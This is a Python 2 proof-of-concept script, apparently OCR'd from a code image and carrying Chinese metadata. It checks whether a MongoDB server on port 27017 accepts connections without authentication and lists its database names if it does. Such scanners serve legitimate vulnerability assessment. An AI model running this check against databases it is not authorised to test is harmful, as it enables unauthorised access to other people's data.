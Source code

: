     import pymongo
    import urllib2
    import urlparse

    from baseframe import BaseFrame    class MyPoc(BaseFrame):
        poc_info = {
            # poc相关信息
            'poc': {
                'id': 'poc-2014-0194',
                'name': 'Mongodb 配置不当导致未授权访问漏洞 POC',
                'author': '1024',
                'create_date': '2014-12-10',
            },
            # 协议相关信息
            'protocol': {
                'name': 'http',
                'port': [28017],
                'layer3_protocol': ['tcp'],
            },
            # 漏洞相关信息
            'vul': {
                'app_name': 'Mongodb',
                'vul_version': ['*'],
                'type': 'Information Disclosure',
                'tag': ['Mongodb信息泄露漏洞', '默认空口令未授权访问漏洞', '27017/28017端口'],
                'desc': 'mongodb启动时未加 --auth选项，导致无需认证即可连接mongodb数据库，从而导致一系列安全问题。',
                'references': ['N/A',
                               ],
            },
        }        @classmethod
        def verify(cls, args):
            verify_url = args['options']['target']
            ip_addr = urlparse.urlparse(verify_url).netloc
            if args['options']['verbose']:
                print '[*] Connect mongodb: ' + ip_addr + ':27017'
            try:
                conn = pymongo.MongoClient(ip_addr, 27017, socketTimeoutMS=3000)
                dbname = conn.database_names()
                if dbname:
                    args['success'] = True
                    args['poc_ret']['vul_url'] = ip_addr + ':27017'
                    args['poc_ret']['database_names'] = dbname
            except Exception, e:
                print str(e)
                args['success'] = False
                return args
            return args
